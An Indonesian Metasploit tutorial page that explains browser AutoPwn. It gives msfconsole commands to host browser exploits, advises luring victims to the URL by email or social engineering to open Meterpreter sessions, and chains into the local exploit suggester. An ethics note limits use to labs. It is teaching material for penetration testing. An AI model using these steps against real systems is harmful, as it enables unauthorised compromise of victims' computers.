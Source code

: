 <p align="left">
  <a href="https://github.com/fixploit03/Belajar-Metasploit-Framework/blob/main/resource/Teknik%20Persistence%20pada%20Target.md">Teknik Persistence pada Target</a>
</p>

# Eksploitasi Otomatis dengan AutoPwn 

## A. Apa itu AutoPwn?

[AutoPwn](https://github.com/beefproject/beef/wiki/Metasploit#browser-autopwn) adalah fitur dari Metasploit yang secara otomatis memuat berbagai eksploit dan menyerang target berdasarkan kerentanannya, terutama melalui browser (client-side attack).

Modul terkait:

```
auxiliary/server/browser_autopwn
```

> Fitur ini sudah deprecated dalam versi baru, tetapi konsepnya masih digunakan dalam serangan berbasis exploit suggestion + exploit chaining.

Prasyarat:
- Kali Linux dengan Metasploit terinstal.
- Browser korban (misalnya `Windows 7` + `IE`, `Firefox` versi lama).
- Jaringan lokal/lab untuk pengujian.
- Pengetahuan dasar Metasploit.

### 1. Setup AutoPwn

1. Jalankan Metasploit:

   ```
   msfconsole
   ```

2. Gunakan modul AutoPwn:

   ```
   use auxiliary/server/browser_autopwn
   ```

3. Atur parameter penting:

   ```
   set LHOST 192.168.1.10
   set SRVHOST 192.168.1.10
   set SRVPORT 80
   set SSL false
   set verbose true
   ```

   Keterangan:
   - `LHOST`: IP Attacker
   - `SRVHOST`:  IP hosting payload
   - `SRVPORT`: Port hosting payload
   - `SSL`: Non-SSL (HTTP)
   - `VERBOSE`: Menampilkan output lebih detail (debugging)
  
4. Jalankan:

   ```
   run
   ```

   Metasploit akan:
   - Menjalankan web server dengan banyak exploit browser.
   - Membuat payload otomatis.
   - Menunggu korban mengakses URL (via social `engineering`, `email`, `dsb`).
   - Menyuntikkan exploit dan mencoba men-deploy payload.
  
### 2. Teknik Penyebaran

Kirim URL ke korban: http://192.168.1.100/
- Jika browser rentan (`IE6`, `Firefox 10`, `dll`), exploit akan dikirim.
- Otomatis membuka sesi meterpreter.

### 3. Hasil Eksploitasi

Cek sesi:

```
sessions -l
```

Interaksi:

```
sessions -i 1
```

### 4. Alternatif: Auto Exploitation dengan Exploit Suggestion

Langkah:

```
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```
 
Kemudian gunakan exploit yang disarankan:

```
use exploit/linux/local/xxx
set SESSION 1
run
```

## Catatan Etis dan Legal
- AutoPwn hanya boleh digunakan dalam lab atau lingkungan izin.
- Jangan digunakan terhadap sistem publik atau tanpa persetujuan.
- Risiko legal dan etika sangat tinggi jika digunakan sembarangan.


<p align="right">
  <a href="https://github.com/fixploit03/Belajar-Metasploit-Framework/blob/main/resource/Tips%20dan%20Trik%20Penggunaan%20Metasploit%20Efisien.md">Tips dan Trik Penggunaan Metasploit Efisien</a>
</p>
